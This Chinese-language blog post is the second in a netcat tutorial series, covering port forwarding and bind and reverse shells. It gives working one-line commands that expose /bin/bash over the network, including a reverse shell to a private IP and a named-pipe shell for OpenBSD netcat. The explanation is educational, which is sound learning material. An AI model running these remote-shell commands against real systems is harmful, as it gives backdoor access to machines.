




[欢迎转载，但请在开头或结尾注明原文出处【blog.chaosjohn.com】](https://blog.chaosjohn.com/TCP-IP-Swiss-Army-Knife-netcat-2.html)

## 前言
昨日写 [TCP/IP 瑞士军刀 - netcat (篇一)](https://blog.chaosjohn.com/TCP-IP-Swiss-Army-Knife-netcat-1.html) 的时候，翻阅了大量的资料，浏览器的标签也都开满了。所以趁大脑还依旧活跃，今天乘胜追击写个 `篇二`，仍然是以 GIF 动图演示其案例。

## 补上篇
上篇里有提到，如果只用 `netcat` 进行端口转发，必须用到 `GNU` 版本（因其拥有 `-c / -e` 参数）：

- `-c shell commands` 调用 /bin/sh 来执行命令
- `-e filename` 通过程序文件路径来执行程序

上案例：

- 远端执行 `nc -l -k -p 8080 -c "nc 192.168.1.21 22"`，即可将 `8080` 端口转发到 `192.168.1.21:22`
- 本地执行 `ssh 10.144.137.114 -p 8080` 即可测试转发成功

## 反弹 Shell
`netcat` 在网络应用中，很受黑客的喜爱，`反弹 Shell` 是其经常使用的场景。

什么是 `反弹 Shell` 呢？给个一句话解释：在目标机器上，弹一个 Shell 出来作为其后门，与本地机器进行通信，即 **本地机器** 可直接访问 **目标机器** 的 Shell。

而 `反弹 Shell` 也分为两种：

- `正向 Shell`，又名 `bind shell`
- `反向 Shell`，又名 `reverse shell`

因为要弹个 Shell 出来，所以一般都需要访问到 Shell，`/bin/sh` 或  `/bin/bash` 或 `/bin/zsh` 都可以。既然用到外部 Shell 程序，那一般都是使用 `GNU` 版本的 `netcat`（用到其 `-c / -e` 参数）

### 正向 Shell
先弹后连接，即让 `目标机器` 先弹个 Shell，暴露在某端口，然后 `本地机器` 连接上 `目标机器` 该端口，即可访问目标机器的 Shell。

- 目标机器：`nc -l -p 8080 -e /bin/bash`
- 本地机器：`nc 10.144.137.114 8080`

### 反向 Shell
先监听后连接，即 `本地机器` 先监听 `目标机器` 的某端口，如果 `目标机器` 在该端口弹出了 Shell，就可立即连接上。

- 本地机器：`nc -v -l -p 8080`
- 目标机器：`nc 10.144.247.172 8080 -e /bin/bash`

### OpenBSD netcat 实现正向 Shell
那如果非要用 `OpenBSD` 版本的 `netcat`，搭配什么使用可以反弹 Shell 呢？这里笔者列举一个列子 - `命名管道（named pipe）`，又名 `FIFO`，即 `first in first out` 先进先出。

- 目标机器先执行：`mkfifo /tmp/pipe` 创建一个命名管道
- 目标机器再执行：`cat /tmp/pipe | /bin/bash 2>&1 | nc -l -p 8080 > /tmp/pipe` 进行反弹 Shell
- 本地机器执行：`nc 192.168.1.21 8080`

> `命名管道` 的 `stdout（标准输出）` 通过 `"|"` 流向 `bash`
> 
> `2>&1` 表示 bash 的 `stderr（标准错误）` 重定向到 `stdout（标准输出）`
> 
> `bash` 的 `stdout（标准输出）` 通过 `"|"` 流向 `目标机器的 nc`
>
> 进而通过 `TCP/UDP 连接` 流向 `本地机器的 nc` 并显示
>
> `本地机器` 输入的命令再通过 `本地机器的 nc` 流向 `目标机器的 nc`
>
> `目标机器的 nc` 将接收到的命令输入 `命名管道`
> 
> 至此形成一个完整的循环

## 写在最后
本文演示了用 `netcat` 实现 `端口转发` 和 `反弹 Shell`，还有很多案例，等待读者们去发掘！

---

最后，如果该文对读者有些许帮助，考虑下给点捐助鼓励一下呗😊
